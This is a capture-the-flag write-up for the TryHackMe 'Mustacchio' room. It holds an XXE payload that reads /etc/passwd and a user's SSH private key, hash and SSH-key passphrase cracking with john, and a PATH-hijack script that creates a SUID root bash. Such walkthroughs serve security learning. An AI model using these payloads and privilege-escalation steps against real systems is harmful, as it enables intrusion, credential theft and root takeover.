










# Mustacchio (THM)

- https://tryhackme.com/room/mustacchio
- March 8, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.18 ((Ubuntu))

- after running rust scan, found open port at 8765

3. 8765/http nginx 1.10.3 (Ubuntu)
   - which is a login page

### HTTP

- directory brute forcing with ffuf

```
custom
images
fonts
robots.txt
```

- In custom, user.bak file found



- download it, and it is sqlite data
- check the database



- found admin password, which may be sha1 hash
- use https://crackstation.net and get password

- Try to enter login page which is opened at port 8765



- add random comment and found that post request via `xml` parameter



- whatever comment said, it shows nothing
- from view page source, found two interesting things



- download the dontforget.bak file, which is xml file and read the contents



- it is an example of that we can comment
- copy and paste into comment box and we can see the result



- try xxe injection, in view page source said, `Barry, you can now SSH in using your key` - may be, try to find barry's ssh key?

- just try with `/etc/password` file to check

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&ent;</com>
</comment>

```



- barry has home directory `/home/barry`
- find his id_rsa key which can be under `.ssh` folder
- get his id_rsa key



- it is better to copy from view page source
- don't forget to add extra `Enter` after the last line while pasting ssh key
- change permission to 600
- try to enter ssh
- but need passphrase
- try with previous password to login website, but not success
- use john to crack password

```sh
$ /opt/tools/john/run/ssh2john.py id_rsa > forj.txt
$ john forj.txt --wordlist=/usr/share/wordlists/rockyou.txt
# found password
```

## User Access

- enter ssh as `barry` user with above credentials found.
- don't know barry's password and unable to sudo
- find suid

```sh
$ find / -perm -4000 2>/dev/null
...
/home/joe/live_log
...

barry@mustacchio:/tmp$ ls /home/joe -la
total 28
...
-rwsr-xr-x 1 root root 16832 Jun 12  2021 live_log

```



- by reading the source code with `strings`, live_log may be use this command `tail -f /var/log/nginx/access.log`

- if we can create, another `tail` command , we will get root access

## Root Access

- go to `/tmp` and create `tail` file
- inside tail, write

```sh
#!/bin/bash

cp /bin/bash /tmp/bash;
chmod +s /tmp/bash;
```

- then chmod +x
- update PATH, so that `/tmp` run first

```sh
barry@mustacchio:/tmp$ chmod +x tail

barry@mustacchio:/var/log$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

barry@mustacchio:/var/log$ export PATH=/tmp:$PATH

barry@mustacchio:/var/log$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

```

- then

```sh
barry@mustacchio:/tmp$ which tail
/tmp/tail

barry@mustacchio:/tmp$ cd /home/joe

barry@mustacchio:/home/joe$ ls
live_log

barry@mustacchio:/home/joe$ ./live_log
```

- it will run the `tail` under `/tmp` folder by root and will create `bash` file under `/tmp`

- go to `/tmp` and run `bash`

```sh
barry@mustacchio:/tmp$ /tmp/bash -p
bash-4.3# whoami
root
```

---
